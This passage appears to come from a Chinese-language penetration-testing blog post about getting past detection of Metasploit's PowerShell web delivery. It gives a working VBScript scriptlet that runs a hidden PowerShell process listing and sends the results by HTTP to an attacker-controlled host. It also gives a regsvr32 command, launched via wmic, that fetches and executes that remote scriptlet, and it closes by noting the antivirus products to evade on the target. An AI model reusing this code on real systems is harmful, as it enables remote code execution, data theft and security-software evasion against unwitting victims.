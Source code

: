 然后我发现msf `exploit/multi/script/web_delivery`生成的地址，都会在底层调用一层`powershell`

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-45-14.png)

目前，这种download+iex方式肯定不行了，然后我就改了几个脚本，通过HTTP Log来回显执行结果：

获取进程列表：

```
<?XML version="1.0"?>
<scriptlet>
	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
		<script language="vbscript">
<![CDATA[
Sub getName(name)
  	Dim http
	Set http = CreateObject("Msxml2.ServerXMLHTTP")
	http.open "GET","http://xxx.xxx.xxx.xxx:8086/"+name, False
	http.send
End Sub

Sub Cmd(command)
Set oShell = CreateObject("WScript.Shell")
Set Re = oShell.Exec(command)

Do While Not Re.StdOut.AtEndOfStream
	getName Re.StdOut.ReadLine()
Loop
End Sub

Cmd "powershell -w hidden -c $s=Get-Process;$process ='';foreach ($n in $s){$process += $n.Name+'|'}$Bytes = [System.Text.Encoding]::Unicode.GetBytes($process);$EncodedText =[Convert]::ToBase64String($Bytes);Write-Host $EncodedText;exit;"
]]>
		</script>
	</registration>
</scriptlet>
```

执行：

```
wmic process call create "regsvr32 /s /n /u /i:http://xxx.xxx.xxx.xxx:8086/p.txt scrobj.dll"
```

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-51-18.png)

获得回显。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-48-39.png)

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-49-25.png)

获得进程列表后，看到有`EST Nod32`、`360`等防护软件，看来需要做的工作有很多。
